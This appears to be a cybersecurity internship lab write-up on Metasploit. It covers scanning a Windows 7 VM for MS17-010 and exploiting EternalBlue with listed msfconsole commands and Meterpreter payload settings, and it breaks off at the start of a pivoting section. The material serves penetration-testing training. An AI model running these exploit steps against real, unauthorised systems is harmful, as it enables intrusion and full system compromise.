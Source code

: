 # Metasploit
Metasploit is a flexible platform used for penetration testing and security auditing, enabling testers to uncover system vulnerabilities and evaluate security measures. The framework includes multiple modules that can be used together to perform various tasks, such as detecting and exploiting weaknesses.

## Use Metasploit To Identify A Machine Vulnerable To MS17-010
The MS17-010 EternalBlue vulnerability is a serious remote code execution flaw in the Windows Server Message Block (SMB) protocol. Exploiting this vulnerability allows attackers to run arbitrary code on the target machine, potentially leading to system compromise and unauthorized access.

#### References
- [MS17-010 SMB RCE Detection](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_ms17_010/) by Rapid7
- [Microsoft Security Bulletin MS17-010 - Critical](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) by Microsoft
  
#### Tasks
- Launch a VM running a vulnerable version of Windows (Windows 7)
- Within the Metasploit console, use the auxiliary module "scanner/smb/smb_ms17_010" to scan the target machine for the MS17-010 vulnerability
- Validate the output from the "MS17-010 SMB RCE Detection" auxiliary module in Metasploit is 'Host is LIKELY vulnerable to MS17-010!'

Screenshot of Metasploit successfully identifying MS17-010 vulnerability shown below: <br/>
![Metasploit identifying MS17-010 vulnerability](https://github.com/aaronamran/MCSI-Remote-Cybersecurity-Internship/blob/main/Security%20Tools/images/metasploit-identify-ms17-010.png)



## Use Metasploit To Exploit MS17-010
The EternalBlue exploit targets a vulnerability in the Server Message Block (SMB) protocol, which was patched with the MS17-010 update. However, many systems remain unpatched, leaving them susceptible to this attack. The exploit can be delivered via phishing emails or malicious websites. Penetration testers can use Metasploit to identify hosts vulnerable to the EternalBlue exploit by scanning for the MS17-010 flaw. Once a vulnerable system is found, the tester can deploy and execute a malicious payload on the target using Metasploit.

#### Tasks
- Execute the appropriate MS17-010 exploit from Metasploit against the target machine to exploit the vulnerability
- Use the "getuid" command within the Meterpreter session
- After successful exploitation, verify that you have gained a Meterpreter session
- Demonstrate you are running as "NT AUTHORITY\SYSTEM" when executing "getuid" within the Meterpreter session

#### Solutions
1. Launch Metasploit in Kali Linux with the command `msfconsole`
2. Run the command `search ms17-010`
3. Choose a module. For automatic modules, simply enter `use 0`. Note that since no payload was configured, it defaults to `windows/x64/meterpreter/reverse_tcp`
4. Enter `show payloads`, and choose a payload number 26 `payload/windows/x64/meterpreter/bind_tcp_rc4`
5. To set the target's IP address, enter `show options` and `set RHOSTS <target_IP_address>`
6. (Optional) Enter `set GroomAllocations 10` and `set GroomDelta 5` for controlling how memory is arranged on the target computer during an exploit. GroomAllocations decides how many memory spaces the exploit creates to prepare the computer's memory, while GroomDelta fine-tunes the size of the memory spaces

Screenshot of Metasploit successfully exploiting MS17-010 vulnerability with an active Meterpreter session shown below: <br/>
![image](https://github.com/user-attachments/assets/6c8cfafb-7834-4b86-8c90-dbfe87114ffe)



## Use Metasploit's Port Forwarding Capabilities To Gain Access To A Machine That Doesn't Have Direct Internet Access
Some networks isolate business-critical machines from the Internet and more vulnerable corporate systems using Virtual LANs (VLANs) or physical segmentation. Despite this isolation, network engineers and system administrators still require access to these restricted networks for tasks like troubleshooting, patching, or rebooting machines. As a penetration tester or red teamer, your goal is to identify users who need access to these restricted networks, target the machines they use for management, and compromise them. Once you gain control of a machine with access, you can route your traffic through it to reach the restricted network. This method, known as 'pivoting,' allows you to move into otherwise unreachable network environments.

